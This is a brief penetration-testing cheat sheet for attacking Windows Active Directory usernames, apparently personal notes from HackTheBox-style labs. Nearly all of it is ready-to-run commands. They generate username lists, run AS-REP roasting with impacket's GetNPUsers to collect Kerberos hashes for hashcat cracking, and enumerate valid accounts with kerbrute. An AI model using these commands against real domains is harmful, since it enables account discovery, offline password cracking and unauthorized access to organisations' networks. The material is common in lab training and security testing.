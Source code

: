 ```yaml
---
title: With_Usernames
permalink: /Windows/Exploiting_usernames
---
```



## Create username login based from a list of names##
````./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt```

## To extract hashed via ASProasting given a set of usernames  
```while read p; do python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py $DC/"$p" -request -format hashcat -no-pass -dc-ip $IP_BOX >> hash.txt; done < usernames.txt```


### Test first with  
```/usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile users.list```

To test vor validity of usernames on port 88, requiring DC  
```kerbrut userenum --dc $BOX -d $DC usernames.txt```
